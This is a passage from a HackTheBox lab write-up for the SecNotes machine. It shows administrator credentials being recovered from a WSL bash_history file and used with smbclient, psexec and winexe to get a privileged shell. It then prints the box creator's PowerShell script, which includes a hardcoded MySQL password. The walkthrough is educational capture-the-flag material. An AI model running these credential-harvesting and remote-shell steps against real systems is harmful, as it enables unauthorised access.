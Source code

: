 We see on the `bash_history` the admin credentials

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2007:11:42.png)

`smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$`

With **psexec** from **Impacket** we got root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2007:18:37.png)

## Second Method - History Tyler

The user's bash file system is located in the users AppData folder inside the rootfs folder:

`C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2007:20:23.png)

`type .bash_history | findstr smbclient`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2007:20:44.png)

Got it!

Now with `winexe`

`winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2007:21:33.png)

# Extra

More than just get root in this box, is important to understand how it was built. So let's jump in it.

## XSS

To trigger the Tyler activity, the machine creator used a PowerShell script to perform it.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2007:25:35.png)

```powershell
$resp = Invoke-WebRequest 'http://127.0.0.1/' -UseBasicParsing -sessionvariable session
$ip = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
                                                    
while($true) {                                                                                           
                                                    
  $found_url = 0;
                                                    
  $locs = @($ip, '127.0.0.1', 'secnotes.htb', 'localhost')
  ForEach ($loc in $locs) {
    $resp = Invoke-WebRequest "http://$loc/" -UseBasicParsing -WebSession $session
    if ($resp.RawContent -like '*Please fill in your credentials to login*') {
      Write-Host "Reseting password and getting cookie for $loc"
      # reset tylers password to forested85sunk
      & 'C:\Program Files\MySQL\MySQL Server 8.0\bin\mysql.exe' -u secnotes -pq8N#9Eos%JinE57tke72 secnotes -e 'update users set password = \"$2y$10$q6EzQPEssjjQ7J5bdMTbQ.GGQaBTVZZ.hSO04gJkr9U0DCqxB2oL.\" where
 username = \"tyler\";'

      # login
      $resp = Invoke-WebRequest "http://$loc/login.php" -UseBasicParsing -WebSession $session -Method POST -Body @{username='tyler';password='forested85sunk'};
```